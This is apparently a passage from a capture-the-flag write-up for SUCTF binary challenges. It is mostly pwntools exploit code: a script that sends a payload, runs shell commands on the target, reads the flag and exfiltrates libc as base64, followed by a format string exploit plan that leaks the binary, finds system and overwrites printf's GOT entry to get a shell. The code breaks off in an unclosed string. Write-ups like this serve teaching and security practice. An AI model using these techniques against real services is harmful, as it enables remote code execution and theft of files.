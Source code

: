 ```python
    log.warning("newlines!!!\n" + hexdump(pl))

with context.local(log_level="debug"):
    vp.sendline(pl)
    vp.sendline("id;pwd;ls -al")

vp.recv()

vp.sendline("cat /home/rooney/suctf/Persian/persian | base64")

vp.sendline("cat /home/rooney/suctf/Persian/flag")

vp.interactive()

log.info("leaking libc for later uses...")

with context.local(log_level="debug"):
    vp.sendline("tar cz /lib/x86_64-linux-gnu/libc-2.19.so | base64; sleep 1; exit")

with open("./libc.so.tar.gz.leaked.b64", "ab") as f:
    i = 0
    x = vp.recv(8128, timeout=0.5)
    while x:
        i += len(x)
        log.info("received {} bytes".format(i))
        f.write(x)
        x = vp.recv(8128, timeout=0.5)

vp.close()
```


## Write-Up NoMoreBlind

This time we have a 32-bit binary and can input unlimited format strings. Other
than that it's again basically the same.

1. Leak the ELF via the format string bug.
  - my leaking code got better, so this worked pretty good now
  - `base_addr = 0x08048000`
  - Thre is no RELRO
  - Thre is no buffer overflow anymore
2. Leak the address of system
  - pwntools DynELF reliably identified the libc and gave us a libcdb download link :)
3. Overwrite `printf.got` with the address of `system`
  - The loop in `main` is then basically `fgets(&buf); system(buf);`
4. Enjoy the tasty shell :)

This is a pretty standard format string exploit.

```python
printf_got = 0x0804995c
fflush_got = 0x08049960
fgets_got = 0x08049964
printf_leaked = fmtleaker.d(printf_got)
fgets_leaked = fmtleaker.d(fgets_got)

log.info("printf 0x{:x}".format(printf_leaked))
# log.info("fflush 0x{:x}".format(fflush_leaked))
log.info("fgets 0x{:x}".format(fgets_leaked))

"""
with context.local(log_level='info'):
    de = DynELF(fmtleaker, printf_leaked)

```